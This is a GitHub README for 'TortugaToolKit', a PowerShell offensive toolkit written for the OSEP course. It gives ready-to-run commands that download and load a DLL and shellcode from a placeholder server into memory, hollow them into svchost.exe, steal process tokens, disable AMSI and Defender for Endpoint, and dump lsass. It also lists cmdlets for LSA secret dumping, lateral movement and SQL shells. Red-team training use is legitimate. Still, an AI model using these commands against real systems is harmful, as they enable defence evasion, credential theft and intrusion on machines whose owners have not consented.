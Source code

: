 # TortugaToolKit

Written during OSEP course, for learning purposes. Used heavily during the exam with much success. Thanks to all the open source projects out there that i was able to use and learn from.

## Examples

Load it

```powershell
$a=[System.Reflection.Assembly]::Load($(IWR -Uri http://yourserver/tortugatoolkit.dll -UseBasicParsing).Content);
Import-Module -Assembly $a

Untested but should work. maybe.
$test=((IWR -Uri 'http://yourserver/turtletoolkit.dll' -UseBasicParsing).RawContent);
$len=$test.length;$test.SubString($len-($len -198));$a=[System.Reflection.Assembly]::Load($test);
Import-Module -Assembly $a

```

Example of remotely loading and encrypting shellcode, then performing proc hollow with it
```powershell
$code = Invoke-EncryptShellcode -shellcode $(IWR -Uri 'http://ip/shellcode.bin' -usebasicparsing).Content
INVPH -encsh $code.encryptedShellcode -k $code.encryptionKey -ivk $code.initVectorKey -pn 'svchost.exe' -Verbose
```
Example of performing ping sweep then admin check on subnet
```powershell
$s = Invoke-PingSweep -s "172.16.23.0";
foreach($h in $s){Invoke-AdminCheck -t $h}

Invoke-AdminCheck -h $(Invoke-PingSweep -s "172.16.75.0")
```
Example of impersonation via process token then running SharpView (or sharphound) as that domain user
```powershell
Invoke-TokenStealer -procH $false

Get-CurrentIdentity

Invoke-TurtleView -c "Get-DomainComputers";
Invoke-TurtleHound
```
Example of disabling amsi then disabling defender for endpoint and performing lsass process dump
```powershell
Disable-AyEmEsEye -Verbose
Disable-DefenderForEndpoint
Invoke-TurtleDump
Enable-DefenderForEndpint

```
Example of loading and executing a c# assembly
```powershell
Invoke-AssemblyLoader -e $false -l $false -path "http://ip/payload" -name namespace -clss targetclass -run method

```

## Cmdlets

```
Disable-AyEmEsEye
Disable-DefenderForEndpoint
Disable-Etw
Enable-DefenderForEndpoint
Enable-Privileges
Get-ActiveDirectoryComputers
Get-ActiveDirectoryForests
Get-ActiveDirectoryGroupMembership
Get-ActiveDirectoryGroups
Get-ActiveDirectoryUsers
Get-CurrentIdentity
Get-MsSQLQuery
Get-SQLInfo
Get-System
Get-TrustedInstaller
Invoke-AdminCheck
Invoke-AssemblyLoader
Invoke-ClassicInjection
Invoke-FileLessLateralMovement
Invoke-LsaSecretsDmp
Invoke-MsSQLAssembly
Invoke-MsSQLShell
Invoke-PingSweep
Invoke-ProcessHollow
Invoke-ShellcodeEncryption
Invoke-TokenStealer
Invoke-TurtleDump
Invoke-TurtleHound
Invoke-TurtleUp
Invoke-TurtleView
Undo-Impersonation

```

## Credits

* https://github.com/GhostPack/SharpUp
* https://github.com/tevora-threat/SharpView
* https://github.com/BloodHoundAD/SharpHound3
* https://devblogs.microsoft.com/scripting/use-powershell-to-decrypt-lsa-secrets-from-the-registry/
* https://github.com/clymb3r/PowerShell/blob/master/Invoke-TokenManipulation/Invoke-TokenManipulation.ps1
* https://www.exploit-db.com/exploits/13054
* https://github.com/latortuga71/latortugaDump
* https://github.com/b4rtik/ATPMiniDump
* https://www.matteomalvica.com/blog/2019/12/02/win-defender-atp-cred-bypass/
* https://github.com/cobbr/SharpSploit
* https://medium.com/csis-techblog/silencing-microsoft-defender-for-endpoint-using-firewall-rules-3839a8bf8d18
* https://0x00-0x00.github.io/research/2018/10/21/Windows-API-And-Impersonation-Part-2.html
* https://github.com/latortuga71/DisableDefenderForEndpointPOC
* https://institute.sektor7.net/
* https://www.mike-gualtieri.com/posts/red-team-tradecraft-loading-encrypted-c-sharp-assemblies-in-memory
* https://dotnetninja.net/2020/03/creating-a-powershell-cmdlet-in-c/
* https://king-sabri.net/how-to-compile-embed-and-use-sharpsploit/
* https://www.tiraniddo.dev/2017/08/the-art-of-becoming-trustedinstaller.html
* https://www.codeproject.com/articles/18102/howto-almost-everything-in-active-directory-via-c
* https://www.offensive-security.com/pen300-osep/
* https://github.com/Mr-Un1k0d3r/SCShell

## Unlicense

```
This is free and unencumbered software released into the public domain.


Anyone is free to copy, modify, publish, use, compile, sell, or
distribute this software, either in source code form or as a compiled
binary, for any purpose, commercial or non-commercial, and by any
means.


In jurisdictions that recognize copyright laws, the author or authors
of this software dedicate any and all copyright interest in the
software to the public domain. We make this dedication for the benefit
of the public at large and to the detriment of our heirs and
successors. We intend this dedication to be an overt act of
relinquishment in perpetuity of all present and future rights to this
software under copyright law.


THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND,
EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT.
IN NO EVENT SHALL THE AUTHORS BE LIABLE FOR ANY CLAIM, DAMAGES OR
OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE,
ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR
OTHER DEALINGS IN THE SOFTWARE.

```

For more information, please refer to <http://unlicense.org/>
